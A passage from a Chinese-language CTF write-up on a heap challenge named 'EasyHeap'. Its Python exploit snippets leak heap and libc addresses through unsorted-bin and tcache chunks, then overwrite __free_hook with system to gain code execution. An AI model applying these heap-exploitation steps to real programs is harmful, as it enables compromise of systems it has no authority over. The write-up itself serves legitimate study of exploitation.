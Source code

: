這兩個在 Unsortedbin 中的 Chunk 可以讓我們直接 Leak 出 Heap 的位置：

```python
# def get_name_from_idx(idx: int)
get_name_from_idx(2)
BASE_HEAP = u64(r.recv(6).ljust(8, b'\x00')) - 0x2a0
```

下一個目標是要 print 出 `main_arena+96` 的位置，但因為 chunk 進 tcache 後 header 會被改寫，所以我們可以透過連續 chunk 去改寫在 `fd` 中的值在 Leak 出來：

```python
edit_book(1, p64(BASE_HEAP + 0x2c0 + 0x10))
get_name_from_idx(0)
BASE_LIBC = u64(r.recv(6).ljust(8, b'\x00')) - 0x1ebbe0
```

![Easy Heap Leak Libc](./resources/EasyHeap_leak_libc.png)

#### 劫持 `__free_hook` 成 `system`

跟剛剛寫入方法一樣，其實我們現在已經可以修改任意位置的值了，我們只要把 `system` 的位置寫到 `__free_hook` 中就行了：

```python
ADDR_SYSTEM = BASE_LIBC + 0x55410
ADDR_FREE_HOOK = BASE_LIBC + 0x1eeb28

edit_book(1, p64(ADDR_FREE_HOOK))
edit_book(0, p64(ADDR_SYSTEM))
```
